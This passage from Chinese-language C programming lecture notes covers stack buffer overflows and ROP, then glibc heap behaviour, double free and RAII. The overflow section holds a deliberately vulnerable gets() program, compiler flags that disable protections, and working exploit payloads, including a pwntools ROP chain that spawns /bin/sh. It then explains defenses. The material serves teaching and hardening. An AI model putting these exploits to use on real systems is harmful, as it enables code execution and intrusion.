$ git clone https://github.com/longld/peda.git ~/peda
$ echo "source ~/peda/peda.py" >> ~/.gdbinit
```
若 Python 版本較新 (3.12+) 導致 `six` 模組缺失，可改用 [pwndbg](https://github.com/pwndbg/pwndbg) 或 [GEF](https://github.com/hugsy/gef) 等替代方案。
:::

準備測試程式: (檔名 `bof.c`)
```c=
#include <stdio.h>
#include <stdlib.h>

extern char *gets(char *s);

void evil() {
    system("/bin/sh");
}

int main() {
    char input[10];
    puts("Input:");
    gets(input);
    puts(input);
}
```

這段程式碼展示最基本的 [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) 如何達成攻擊。由第 13 行可見，被攻擊者使用缺乏長度檢查的函式 [gets()](https://man7.org/linux/man-pages/man3/gets.3.html)，此外上面有一個函式會去執行 `/bin/sh`，雖然使用者在一般情境無法合法的呼叫他，但是卻可以透過 buffer overflow 達到改變程式流程，並觸發這個危險的函式。

:::warning
C99 已將 `gets()` 標註為過時 (deprecated)，C11 正式將其從標準函式庫移除 (C11 §K.3.5.4.1 提供替代的 `gets_s()`，但屬可選的 Annex K)。GCC 14 會因 implicit declaration 而報錯。上述程式碼透過 `extern` 宣告繞過此限制，僅供教學用途。實務上應以 `fgets()` 取代，或在支援 Annex K 的實作中使用 `gets_s()`。
:::

首先，我們先將程式做編譯。這邊需要特別注意的是，我們需要加上 `-fno-stack-protector` 以關閉 `CANARY` 這個記憶體保護機制，`-fcf-protection=none` 以關閉 [CET](https://en.wikipedia.org/wiki/Control-flow_enforcement_technology) (否則 `endbr64` 檢查會阻擋間接跳躍)，相關的記憶體保護機制會在後面稍做介紹。

```shell
$ gcc -o bof -fno-stack-protector -fcf-protection=none -g -no-pie bof.c
```

接著觀察這支程式的行為，可發現程式的行為非常單純，會將你的輸入如實印出，裡頭到底暗藏什麼玄機？繼續看下去。
```shell
$ ./bof
Input:
abc
abc
```

#### Why Segmentation fault?
接著可對這支程式做一些粗暴的事：以超過預期長度的字串攻擊。
```shell
$ gdb -q bof
(gdb) r
Input:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
```

這支程式不意外地崩潰，並顯示 `Segmentation fault`。記憶體中塞滿 `0x61`，即我們輸入的 `a`。前述 stack 章節提到，區域變數存放於 stack 中，因此 `input` 位於 `main` 函式的 stack frame 內。而 stack frame 頂端存放函式的 `return address`，因此可推測輸入的 `a` 覆寫 `return address`，導致 `rip` 指向無法存取的位址。

將中斷點下在 `main` 的 `ret` 指令位置，並觀察接下來 `rsp`，也就是位於 `return address` 的值
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x000000000040115c <+0>:     push   rbp
   0x000000000040115d <+1>:     mov    rbp,rsp
   0x0000000000401160 <+4>:     sub    rsp,0x10
   0x0000000000401164 <+8>:     lea    rax,[rip+0xea1]        # 0x40200c
   0x000000000040116b <+15>:    mov    rdi,rax
   0x000000000040116e <+18>:    call   0x401030 <puts@plt>
   0x0000000000401173 <+23>:    lea    rax,[rbp-0xa]
   0x0000000000401177 <+27>:    mov    rdi,rax
   0x000000000040117a <+30>:    call   0x401050 <gets@plt>
   0x000000000040117f <+35>:    lea    rax,[rbp-0xa]
   0x0000000000401183 <+39>:    mov    rdi,rax
   0x0000000000401186 <+42>:    call   0x401030 <puts@plt>
   0x000000000040118b <+47>:    mov    eax,0x0
   0x0000000000401190 <+52>:    leave
=> 0x0000000000401191 <+53>:    ret
End of assembler dump.

(gdb) b *0x0000000000401191
Breakpoint 1 at 0x401191: file bof.c, line 15.

(gdb) c
Continuing.

(gdb) p $rsp
$1 = (void *) 0x7fffffffea28

(gdb) x/gx 0x7fffffffea28
0x7fffffffea28: 0x6161616161616161
```

可見 `return address` 指向 `0x6161616161616161`。透過 `/proc/PID/maps` 或 GDB 的 `info proc mappings` 可知該位址不屬於程式可存取的範圍，所以才會丟出 `Segmentation fault`。

可推斷在 `gets(input)` 之後之記憶體狀況如下圖：


### Return to `evil()`

既然我們可以把 `rip` 導到 `0x6161616161616161` 讓他崩潰，為何不將其導到 evil() 呢？
```shell
(gdb) p evil
$2 = {int ()} 0x401146 <evil>
```

x86-64 是以 `little endian` 將值存放於記憶體中，因此我們必須先將 `0x401146` 轉換為 little endian 的表示法：`\x46\x11\x40\x00\x00\x00\x00\x00`

接著還缺到 return address 的 offset，因此可以回到 GDB 中計算。為了方便計算這邊的輸入值為依序輸入 abc...xyz
```shell
(gdb) r
Input:
abcdefghijklmnopqrstuvwxyzabcdefghijklmnop
abcdefghijklmnopqrstuvwxyzabcdefghijklmnop

Program received signal SIGSEGV, Segmentation fault.

(gdb) p $rsp
$1 = (void *) 0x7fffffffea28
(gdb) x/s 0x7fffffffea28
0x7fffffffea28: "stuvwxyzabcdefghijklmnop"
```

看到 `$rsp` 的第一個字為 `s`，而 's' 之前有 18 個字母 (a 到 r)，也就是我們需要填入 18 個值才碰的到 return address。這是因為反組譯中 `lea rax,[rbp-0xa]` 顯示 `input` 起始於 `rbp-10`，加上 `rbp` 本身佔 8 bytes，共 18 bytes。利用得到的資訊撰寫以下 exploit，並成功執行 `/bin/sh`

:::warning
依 [System V AMD64 ABI](https://refspecs.linuxbase.org/elf/x86_64-abi-0.99.pdf) 規範，`call` 指令執行前 `rsp` 須按 16 bytes 對齊。buffer overflow 直接覆寫 return address 跳至 `evil()` 時，`rsp` 往往未滿足此對齊要求，導致 `system()` 內部的 SSE 對齊存取觸發 segmentation fault。解決方式是在 payload 中先放一個 `ret` gadget 的位址，讓 `rsp` 多 pop 一次以完成 16 bytes 對齊，再跳至 `evil()`。
:::

```shell
$ python3 -c "
import sys
ret_gadget = 0x40101a  # 任意 ret 指令位址，用以對齊 stack
evil_addr  = 0x401146
sys.stdout.buffer.write(b'a'*18
    + ret_gadget.to_bytes(8,'little')
    + evil_addr.to_bytes(8,'little'))
" > payload
$ (cat payload; echo id) | ./bof
```

其 stack 結構如下：


### [ROP 攻擊](https://en.wikipedia.org/wiki/Return-oriented_programming)
ROP attack 的基礎概念是使用一連串的指令組合成一個完整的功能。其原理在於利用 ret 讓程式執行目標指令：RIP 裡面的內容是下一個要執行的指令，RSP 是目前 stack top 的位置。在正常的情況下，程式呼叫 ret 前會使用 pop 將 stack 內無用的內容丟掉、接著把 RBP 的內容設為 return 後的 RBP，最後讓 RSP 指在 return address 上。攻擊者藉由 overflow 在 stack 中加入一連串以 ret 結尾的指令，當程式執行 ret 時就會執行 RSP 所指的內容，因為每個指令都以 ret 結尾，所以會繼續執行 stack 中的下一道指令，如此串接即能組合成一個有意義的行為。

以下實驗以讓程式執行 `/bin/sh` 為例 (檔名 `rop.c`)：
```c
#include<stdio.h>
#include<unistd.h>

int main(){
    char buf[20];
    puts("Do you want to learn ROP ?\n");
    printf("Your answer ?\n ");
    fflush(stdout);
    read(0,buf,160);
}
```

編譯時關閉 gcc 的 stack overflow 保護機制及關閉 ASLR
```shell
$ gcc -o rop rop.c -fno-stack-protector -fcf-protection=none -no-pie -static
```

### 確認 buffer overflow 會碰觸到 return address
用 gdb 確認 overflow 並找出 overflow 的 offset
```shell
$ gdb rop
(gdb) b main
(gdb) r
(gdb)  pattc 100
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
以 pattc 產生測試的文字長度，搭配 crashoff 找出造成 overflow 的 offset

(gdb) c
Continuing.
Do you want to learn ROP ?
Your answer ?
 AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Legend: code, data, rodata, heap, value
Stopped reason: SIGSEGV
0x00000000004009fa in main ()
上述訊息表示 buffer overflow 導致 main 的 return address 錯誤

(gdb) crashoff
0x41304141 found at offset: 40
計算出 offset 為40
```

### 透過 ROP 取得 shell ：
想讓程式執行 ```exec("/bin/sh")```，但程式中沒有這段程式碼，所以必須透過 ROP 組成。

目標是藉由 ROP 將分散在各處的指令組成得以觸發系統呼叫，從而執行 shell。

系統呼叫的執行方式如下 (參見 [system call table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))：
| Syscall # |Param 1|Param 2|Param 3|Param 4|Param 5|Param 6|
| --------  |-------|-------|-------|-------|-------|-------|
| rax       | rdi   | rsi    |rdx    |r10    |r8    |r9     |  
| 59| const char \*filename | const char \*const argv[]|const char \*const envp[]|-|-|-|
上表中 59 在 system call 中對應 sys_execve。

因此可整理出觸發系統呼叫並執行 shell 的條件為：rdi 須指向一個儲存 "/bin/sh" 的 buffer，rsi = 0，rax = 0x3b (sys_execve 的編號)，rdx = 0。

要將這些暫存器設定成目標數值，需找出可利用的指令：`pop rax` 將 stack top 放入 rax，`pop rdi` 將 stack top 放入 rdi，`pop rsi` 將 stack top 放入 rsi，`pop rdx` 將 stack top 放入 rdx。

### 尋找指令位置
以尋找帶有 rdi 的指令為例：
```shell
$ ROPgadget --binary rop | grep 'rdi' 
```

找到可利用的指令並記錄記憶體位置，切記指令結尾必須要是 `ret`
```
0x0000000000467265 : syscall ; ret  #呼叫 system call
0x00000000004014c6 : pop rdi ; ret
0x0000000000478636 : pop rax ; pop rdx ; pop rbx ; ret
0x00000000004015e7 : pop rsi ; ret
0x000000000047a622 : mov qword ptr [rdi], rsi ; ret  #將 rdi 作為一個 ptr，把 rsi 的內容放入 rdi 指到目標內容
```

gdb 找可用的 buffer (作為 filename)
```shell
(gdb) vmmap
Warning: not running or target is remote
Start              End                Perm      Name
0x004002c8         0x004a1149         rx-p      /home/xxxx/下載/函式呼叫/rop
0x00400190         0x004c9497         r--p      /home/xxxx/下載/函式呼叫/rop
0x006c9eb8         0x006cd408         rw-p      /home/xxxx/下載/函式呼叫/rop

使用 0x006c9eb8 可寫入的 buffer
```

python pwntool module 製作 payload (檔名 `payload.py`)
```python
from pwn import *
# 把剛剛紀錄的 gadget 位置、buffer 位置、offset 紀錄
offset = 40
scall = 0x467265
pop_rdi = 0x4014c6
pop_rsi = 0x4015e7
pop_rax_rdx_rbx = 0x478636
mov_ptr_rdi_rsi = 0x47a622
buf = 0x006c9eb8+200 #避免 buffer 以有其他用途，往後200單位開始使用

# 製作 payload 
# flat 將 [] 內容從字串形式轉換成 p64 編碼
# \x00 
payload = 'a'*40+flat([pop_rdi,buf,pop_rsi,'/bin/sh\x00',mov_ptr_rdi_rsi,pop_rax_rdx_rbx,0x3b,0x0,0x0,pop_rsi,0x0,scall])
print(payload)
```

```shell
$ python payload.py >> payload
$ cat payload
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@l@/bin/sh"G6G;@erF
```
return address 存放在 stack，藉由上方的 payload 把 return address 取代成一串

用 gdb 開啟程式並載入 payload 測試
```shell
$ gdb -q rop
(gdb) r < payload
Starting program: rop < payload
Do you want to learn ROP ?

Your answer ?
 process 828 is executing new program: /bin/dash
[Inferior 1 (process 828) exited normally]
```

這個程式成功呼叫 `/bin/dash`。

### Trace stack 
在正常操作的情況下執行 ret 當下的 stack
RSP 的位置固定為 0000|
```
0000| 0x7fffffffdd48 --> 0x400c46 (<generic_start_main+582>:    mov    edi,eax)
0008| 0x7fffffffdd50 --> 0x0
0016| 0x7fffffffdd58 --> 0x100000000
0024| 0x7fffffffdd60 --> 0x7fffffffde88 --> 0x7fffffffe22d ("/home/xxxx/下載/函式呼叫/rop")
0032| 0x7fffffffdd68 --> 0x4009ae (<main>:      push   rbp)
0040| 0x7fffffffdd70 --> 0x4002c8 (<_init>:     sub    rsp,0x8)
0048| 0x7fffffffdd78 --> 0xb1d92f39eb9cba5c
0056| 0x7fffffffdd80 --> 0x401560 (<__libc_csu_init>:   push   r14)
```

ret 後的程式碼狀況
```
=> 0x400c46 <generic_start_main+582>:   mov    edi,eax
   0x400c48 <generic_start_main+584>:   call   0x40ea20 <exit>
   0x400c4d <generic_start_main+589>:   cmp    edx,eax
   0x400c4f <generic_start_main+591>:   jbe    0x400b50 <generic_start_main+336>
   0x400c55 <generic_start_main+597>:   jmp    0x400b4a <generic_start_main+330>
```

當輸入我們所製作的攻擊字串
```
0000| 0x7fffffffdd48 --> 0x4014c6 (<__libc_setup_tls+518>:      pop    rdi)
0008| 0x7fffffffdd50 --> 0x6c9f80 --> 0x7fffffffe209 --> 0x9f585673b63ed8d
0016| 0x7fffffffdd58 --> 0x4015e7 (<__libc_csu_init+135>:       pop    rsi)
0024| 0x7fffffffdd60 --> 0x68732f6e69622f ('/bin/sh')
0032| 0x7fffffffdd68 --> 0x47a622 (<__mpn_extract_double+130>:  mov    QWORD PTR [rdi],rsi)
0040| 0x7fffffffdd70 --> 0x478636 (<do_dlopen+54>:      pop    rax)
0048| 0x7fffffffdd78 --> 0x3b (';')
0056| 0x7fffffffdd80 --> 0x0
```

第一次 ret 後，執行一次 pop 使 RSP 指向下一道指令
```
0000| 0x7fffffffdd50 --> 0x6c9f80 --> 0x7fffffffe209 --> 0x9f585673b63ed8d
0008| 0x7fffffffdd58 --> 0x4015e7 (<__libc_csu_init+135>:       pop    rsi)
0016| 0x7fffffffdd60 --> 0x68732f6e69622f ('/bin/sh')
0024| 0x7fffffffdd68 --> 0x47a622 (<__mpn_extract_double+130>:  mov    QWORD PTR [rdi],rsi)
0032| 0x7fffffffdd70 --> 0x478636 (<do_dlopen+54>:      pop    rax)
0040| 0x7fffffffdd78 --> 0x3b (';')
0048| 0x7fffffffdd80 --> 0x0
0056| 0x7fffffffdd88 --> 0x0
```

指令執行位置，可以發現下一道指令又是 ret，程式會繼續執行我們所加入的第 2 道指令
```
=> 0x4014c6 <__libc_setup_tls+518>:     pop    rdi
   0x4014c7 <__libc_setup_tls+519>:     ret
   0x4014c8 <__libc_setup_tls+520>:     nop    DWORD PTR [rax+rax*1+0x0]
   0x4014d0 <__libc_setup_tls+528>:     lea    rax,[rbp+r14*1-0x1]
```

即將執行系統呼叫時的暫存器狀態
```
RAX: 0x3b (';')
RBX: 0x0
RCX: 0x43f430 (<__read_nocancel+7>:     cmp    rax,0xfffffffffffff001)
RDX: 0x0
RSI: 0x0
RDI: 0x6c9f80 --> 0x68732f6e69622f ('/bin/sh')
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffdda8 --> 0x5d7256ca7136cc0a
RIP: 0x467265 (<time+5>:        syscall)
R8 : 0x6cc5c0 --> 0x0
R9 : 0x6ce880 (0x00000000006ce880)
R10: 0x3c ('<')
R11: 0x246
R12: 0x401560 (<__libc_csu_init>:       push   r14)
R13: 0x4015f0 (<__libc_csu_fini>:       push   rbx)
R14: 0x0
R15: 0x0
```

回顧系統呼叫執行的規則：以 RAX 的數值決定要執行的系統呼叫，0x3b 表示要執行的為 system call exec。`exec(const char *filename, const char *const argv[], const char *const envp[])` 中，RDI 作為 `*filename` 傳入，RSI 作為 `argv[]` (此處用不到故設為 0)，RDX 作為 `envp[]` (同樣設為 0)。

### 討論
- [ ] 發生成因
只要涉及內容傳遞就有可能發生 overflow。不同型態間的數值傳遞與轉換也很容易產生 overflow，因為不同型態所佔有的記憶體空間不同，傳遞過程中必須特別注意型態間的記憶體空間是否相符，但對開發者而言是非常不容易察覺的。C 語言把許多檢查行為交由開發者執行，因此 overflow 的預防機制都取決於開發者本身，這造就許多不安全的程式碼。後續 C 語言標準持續強化安全性：`gets()` 在 C99 標註為過時，C11 正式移除；C11 Annex K 引入帶邊界檢查的函式 (如 `gets_s()`、`memcpy_s()`)；C23 移除 K&R 舊式函式定義，消除隱式參數型別轉換的風險。

- [ ] 造成問題
記憶體被覆蓋成非預期的狀況會導致程式執行錯誤或執行非預期的結果，上述的例子就是造成非法登入。若 overflow 覆蓋的記憶體涵蓋 return address，就可以將其覆蓋成指定的函式位址，使程式 return 到目標函式並執行，此即 ROP (Return Oriented Programming) 的關鍵概念。ROP attack 除了直接 return 到現有的函式以外，也可以透過拼湊的方式將一堆小指令組合成攻擊者所需要的功能，例如執行 `/bin/sh` 等 (相關工具：ROPgadget、onegadget)。

### 解決方案
防禦 buffer overflow 需要多層策略 (各機制的原理已於前述「為何理解函式呼叫機制攸關資訊安全」一節說明)，以下著重實務議題。

- [ ] 程式碼層級：邊界檢查
使用帶長度限制的函式取代不安全版本：`fgets()` 取代 `gets()`、`snprintf()` 取代 `sprintf()`、`strncpy()` 或 `strlcpy()` 取代 `strcpy()`。C11 Annex K 另提供 `_s` 字尾的安全函式 (如 `strcpy_s()`、`memcpy_s()`)，其設計本身即為函式呼叫機制的實際應用。以開放原始碼的 [safeclib](https://github.com/rurban/safeclib) 實作為例，每個 `_s` 函式採三層呼叫結構：
1. 巨集包裝層：公開 API 以巨集實作，利用編譯器內建的 `__builtin_object_size()` 在編譯時期檢查目標緩衝區大小，並將結果作為額外參數傳入實作函式。例如 `memcpy_s(dest, dmax, src, slen)` 展開為 `_memcpy_s_chk(dest, dmax, src, slen, BOS(dest), BOS(src))`。
2. 實作函式層 (`_chk` 字尾)：執行完整的前置條件檢查 (null 指標、零長度、緩衝區溢位、來源與目的重疊)，若違反約束 (constraint violation) 則先清除目標緩衝區、插入記憶體屏障 (`MEMORY_BARRIER`)，再透過函式指標呼叫已註冊的 constraint handler。
3. 低階原始操作層：通過檢查後才執行實際的記憶體操作。

其中 constraint handler 機制是函式指標的典型應用，透過 `set_mem_constraint_handler_s()` 註冊回呼函式 (型別為 `constraint_handler_t`)，該函式回傳先前的 handler 以便日後還原，而 safeclib 更運用 C11 的 `_Thread_local` 提供執行緒層級的 handler 覆寫。這種分層設計將編譯時期檢查、執行時期驗證、與錯誤處理策略解耦，正是函式呼叫機制 (巨集展開、參數傳遞、函式指標間接呼叫) 在安全防護上的綜合展現。

- [ ] 編譯器層級：stack canary 與 CET/CFI
    GCC 的 `-fstack-protector-strong` (建議預設) 啟用 canary；`-fcf-protection` 啟用 CET (shadow stack + `endbr64`)；Clang 的 `-fsanitize=cfi` 啟用控制流完整性檢查。
- [ ] 作業系統層級：ASLR 與 NX
    現代作業系統預設啟用 ASLR 與 NX。編譯時加上 `-pie` (Position Independent Executable) 可讓 ASLR 涵蓋主程式的 code segment。

## 藏在 Heap 裡的細節

以下程式中 n 會大到 $10^7$，當 arr 用第 4 行宣告會 segmentation fault，但改成動態配置就可以正常執行。為什麼？會不會是 long (8 byte) × $10^7$ 把記憶體用完？
```c=1
unsigned n, m;
scanf("%u %u", &n, &m);

long arr[n + 1];
// long *arr = malloc((n + 1) * sizeof(*arr));
for (size_t i = 1; i <= n; ++i)
    arr[i] = 0;
```

:::warning
第 4 行的 `long arr[n + 1]` 使用 [variable-length array](https://en.wikipedia.org/wiki/Variable-length_array) (VLA)。VLA 在 C99 為必要功能；C11 將 VLA 物件降為可選 (optional feature，由 `__STDC_NO_VLA__` 巨集標示)；C23 進一步區分：可變修飾型別 (variably modified type，如 `typedef int A[n];`) 為必要功能，但 VLA 物件 (即在 stack 上配置可變長度陣列) 仍為可選，由 `__STDC_NO_VLA__` 控制。因此，依賴 VLA 配置在 stack 上的程式碼在 C11+ 編譯器間不具可攜性。實務上，GCC 和 Clang 均支援 VLA 物件，但 MSVC 不支援。
:::

將 Line 5 到 Line 7 改為 calloc，確認是否會遇到 SegFault
若要清楚地回答這問題，需要一些背景知識: [Why does calloc exist?](https://vorpus.org/blog/why-does-calloc-exist/)

從實作的觀點，calloc 和 malloc + memset 是不同的！Stack 上配置 `long arr[n + 1]` 時，作業系統會去衡量要求的記憶體足不足夠，發現要得太大就發出 segfault；而 `malloc()` 採用的策略是要多少就給多少 (overcommit)，所以拿到的空間可能會比要求的小，作業系統發現不夠用時就開始回收記憶體，直到無可回收而觸發 OOM killer。因此 `malloc()` 存取大容量其實有很大的風險，先前使用 stack 會 segfault 其實是正確的錯誤提醒，而非錯誤本身。

此外，`calloc()` 跟 `malloc()` + `memset` 有很大的不同：`calloc()` 跟作業系統要空間時會拿到歸好零的記憶體 (for security)，已歸零的就不重複歸零；而 `malloc()` 要回來的空間不保證為 0，因此都需要 `memset` 過，可能重工。`calloc()` 在要大空間 (128KB↑) 時效率更佳，因為 kernel 配置 VM 給 `calloc()`，而 VM 空間用完時再執行騰出空間、歸零、swap 的動作 (amortize cost)，`malloc()` 則先執行這些動作。

free() 釋放的是 pointer 指向位於 heap 的連續記憶體，而非 pointer 本身佔有的記憶體 (`*ptr`)。

舉例來說：
```c
#include <stdlib.h>
int main() {
    int *p = malloc(1024);
    free(p);
    free(p);
    return 0;
}
```

編譯不會有錯誤，但對同一指標呼叫兩次 `free()` 屬於未定義行為。C99 §7.20.3.2¶2 與 C11 §7.22.3.3¶2 均規定：「若 `ptr` 引數與先前 `calloc`、`malloc` 或 `realloc` 回傳的指標不符，或該空間已被 `free` 或 `realloc` 釋放，則行為未定義」。C23 沿用相同規範。glibc 的實作在執行期偵測到此情形時會中止程式：
```
*** Error in './free': double free or corruption (top):
0x000000000067a010 ***
```

倘若改為以下：
```c
#include <stdlib.h>
int main() {
    int *p = malloc(1024);
    free(p);
    p = NULL;
    free(p);
    return 0;
}
```

則會編譯和執行都成功。這是因為 C 標準明確規定 `free(NULL)` 為合法操作且無任何效果 (C99 §7.20.3.2¶2: "If ptr is a null pointer, no action occurs.")，C11、C23 皆沿用此保證。

因此，為防止對同一個 pointer 呼叫 `free()` 兩次而觸發未定義行為，`free()` 後應將指標設為 `NULL`。

### 在 GNU/Linux 裡頭觀察 malloc
> 搭配閱讀: [記憶體管理、對齊及硬體特性](https://hackmd.io/@sysprog/c-memory)

事先安裝 gdb 和包含除錯訊息的套件
```shell
$ sudo apt install gdb debuginfod
$ echo 'export DEBUGINFOD_URLS="https://debuginfod.ubuntu.com"' >> ~/.bashrc
$ echo 'set debuginfod enabled on' >> ~/.gdbinit
```

GDB 操作:
```shell
$ gdb -q `which gdb`
Reading symbols from /usr/bin/gdb...
(gdb) start
...
Temporary breakpoint 1, main (argc=1, argv=0x7fffffffeb48) at .../gdb/gdb.c:25
...
(gdb) p ((double(*)())pow)(2.,3.)
$1 = 8
(gdb) call malloc_stats()
Arena 0:
system bytes     =     401408
in use bytes     =     304176
Total (incl. mmap):
system bytes     =     401408
in use bytes     =     304176
max mmap regions =          0
max mmap bytes   =          0
```

glibc 提供 `malloc_stats()` 和 `malloc_info()` 這二個函式，可顯示 process 的 heap 資訊

### 延伸閱讀
[c malloc/free 初探](http://descent-incoming.blogspot.tw/2015/06/c-mallocfree.html)、[Writing a Simple Garbage Collector in C](https://maplant.com/gc.html#org3874059)。

[https://sourceware.org/gdb/onlinedocs/gdb/Target-Description-Format.html](https://sourceware.org/gdb/onlinedocs/gdb/Target-Description-Format.html)

malloc: first-fit => [https://github.com/jserv/mini-arm-os/blob/master/07-Threads/malloc.c](https://github.com/jserv/mini-arm-os/blob/master/07-Threads/malloc.c)


### free()
`free()` 不需要指定 size，因為每塊空間都有控制的 chunk 記錄區塊大小 ([[source]](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#1075))。
```
    chunk ─→ ┌───────────────────────────────────────────────────────────┐
             │  Size of previous chunk, if unallocated (P clear)         │
             ├───────────────────────────────────────────────────────────┤
             │  Size of chunk, in bytes                            │A│M│P│
      mem ─→ ├───────────────────────────────────────────────────────────┤
             │  User data starts here...                                 ╎
             ╎                                                           ╎
             ╎  (malloc_usable_size() bytes)                             ╎
             ╎                                                           │
nextchunk ─→ ├───────────────────────────────────────────────────────────┤
             │  (size of chunk, but used for application data)           │
             ├───────────────────────────────────────────────────────────┤
             │  Size of next chunk, in bytes                       │A│0│1│
             └───────────────────────────────────────────────────────────┘
```
為避免 double free，`free()` 後應將指標設為 `NULL`。至於如何偵測 double free：free 後會有 doubly-linked list 與其他 free 的空間連接。

### 如何偵測 double free 呢？

考慮以下程式:
```c=
#include <stdlib.h>
int main() {
    int *a = malloc(100);
    free(a);
    int *b = malloc(100);
    free(b);
    return 0;
}
```

使用 GDB，觀察 `int *a = (int *) malloc(100);` 的結果:
```shell
(gdb) p a
$1 = (int *) 0x4052a0
```

接著觀察 `int *b = (int *) malloc(100);` 的結果:
```shell
(gdb) p b
$2 = (int *) 0x4052a0
```

系統為加速效能，在 free 時並不會馬上把先前 malloc 配置的 chunk 歸還給作業系統，而是進行集中管理。下次程式 malloc 相同大小的 chunk 時，直接將預先回收的空間配置給請求者。

接著觀察被 free 釋放的 chunk 去向：
```c
#include <stdlib.h>
int main() {
    int *a = malloc(50);
    int *b = malloc(50);
    int *c = malloc(50);
    int *d = malloc(50);
    int *e = malloc(50);

    free(a);
    free(b);
    free(c);
    free(d);
    free(e);

    return 0;
}
```

將中斷點設在 free 之前：
```shell
(gdb) p a
$1 = (int *) 0x4052a0
(gdb) p b
$2 = (int *) 0x4052e0
(gdb) p c
$3 = (int *) 0x405320
(gdb) p d
$4 = (int *) 0x405360
(gdb) p e
$5 = (int *) 0x4053a0
(gdb) x/50gx 0x405290
0x405290:       0x0000000000000000      0x0000000000000041
0x4052a0:       0x0000000000000000      0x0000000000000000
0x4052b0:       0x0000000000000000      0x0000000000000000
0x4052c0:       0x0000000000000000      0x0000000000000000
0x4052d0:       0x0000000000000000      0x0000000000000041
0x4052e0:       0x0000000000000000      0x0000000000000000
0x4052f0:       0x0000000000000000      0x0000000000000000
0x405300:       0x0000000000000000      0x0000000000000000
0x405310:       0x0000000000000000      0x0000000000000041
0x405320:       0x0000000000000000      0x0000000000000000
0x405330:       0x0000000000000000      0x0000000000000000
0x405340:       0x0000000000000000      0x0000000000000000
0x405350:       0x0000000000000000      0x0000000000000041
0x405360:       0x0000000000000000      0x0000000000000000
0x405370:       0x0000000000000000      0x0000000000000000
0x405380:       0x0000000000000000      0x0000000000000000
0x405390:       0x0000000000000000      0x0000000000000041
0x4053a0:       0x0000000000000000      0x0000000000000000
0x4053b0:       0x0000000000000000      0x0000000000000000
0x4053c0:       0x0000000000000000      0x0000000000000000
0x4053d0:       0x0000000000000000      0x0000000000020c31
0x4053e0:       0x0000000000000000      0x0000000000000000
0x4053f0:       0x0000000000000000      0x0000000000000000
0x405400:       0x0000000000000000      0x0000000000000000
0x405410:       0x0000000000000000      0x0000000000000000
```

將中斷點設定於 return 之前：

:::info
自 glibc 2.32 起，tcache 及 fastbin 的 free'd chunk 內 forward pointer (`fd`) 採用 safe-linking 機制 (即 `PROTECT_PTR` 巨集)：`fd` 欄位儲存的值為 `next XOR (fd_field_address >> 12)`，而非直接的下一 chunk 位址。第二個欄位 (`key`) 用以偵測 double free。這些變更使得 heap 的記憶體傾印不再顯示直接的連結指標。
:::

```shell
(gdb) x/50gx 0x405290
0x405290:       0x0000000000000000      0x0000000000000041 <- chunk a free
0x4052a0:       0x0000000000000405      0x7765b1be7986a3f4    <- fd (safe-linked) | key
0x4052b0:       0x0000000000000000      0x0000000000000000
0x4052c0:       0x0000000000000000      0x0000000000000000
0x4052d0:       0x0000000000000000      0x0000000000000041 <- chunk b free
0x4052e0:       0x00000000004056a5      0x7765b1be7986a3f4    <- fd (safe-linked) | key
0x4052f0:       0x0000000000000000      0x0000000000000000
0x405300:       0x0000000000000000      0x0000000000000000
0x405310:       0x0000000000000000      0x0000000000000041 <- chunk c free
0x405320:       0x00000000004056e5      0x7765b1be7986a3f4    <- fd (safe-linked) | key
0x405330:       0x0000000000000000      0x0000000000000000
0x405340:       0x0000000000000000      0x0000000000000000
0x405350:       0x0000000000000000      0x0000000000000041 <- chunk d free
0x405360:       0x0000000000405725      0x7765b1be7986a3f4    <- fd (safe-linked) | key
0x405370:       0x0000000000000000      0x0000000000000000
0x405380:       0x0000000000000000      0x0000000000000000
0x405390:       0x0000000000000000      0x0000000000000041 <- chunk e free
0x4053a0:       0x0000000000405765      0x7765b1be7986a3f4    <- fd (safe-linked) | key
0x4053b0:       0x0000000000000000      0x0000000000000000
0x4053c0:       0x0000000000000000      0x0000000000000000
0x4053d0:       0x0000000000000000      0x0000000000020c31 <- top chunk
0x4053e0:       0x0000000000000000      0x0000000000000000
0x4053f0:       0x0000000000000000      0x0000000000000000
0x405400:       0x0000000000000000      0x0000000000000000
0x602180:       0x0000000000000000      0x0000000000000000
```
上方以 `[ ]` 標註的部分為 linked list 串連的位址。為了方便管理 `free` 出來的 chunk，glibc 會將特定大小的 chunk 做集中管理，其機制分為 `fast bin`、`small bin`、`large bin` 等 (參見 [Bins and Chunks](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html))。

因此推斷 double free 的檢查機制是透過檢查所要 `free` 的 chunk 是否屬於集中管理的 chunk。

### RAII 實作
[Resource acquisition is initialization](https://en.wikipedia.org/wiki/Resource_acquisition_is_initialization) (RAII) 的概念也可在 C 語言中實現，參見 [Implementing smart pointers for the C programming language](https://snai.pe/c/c-smart-pointers/)。透過 gcc extension 可定義巨集 `autofree`：
```c
#define autofree __attribute__((cleanup(free_stack)))
__attribute__ ((always_inline))
inline void free_stack(void *ptr) { free(*(void **) ptr); }
```
一旦超出物件的生命週期時，上述 `free_stack()` 會自動呼叫
```c
int main(void) {
    autofree int *i = malloc(sizeof (int));
    *i = 1;
    return *i;
}
```

## 參考資料
* [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)
* [Glibc Adventures: The Forgotten Chunks](https://go.contextis.com/rs/140-OCV-459/images/Glibc_Adventures-The_Forgotten_Chunks.pdf)
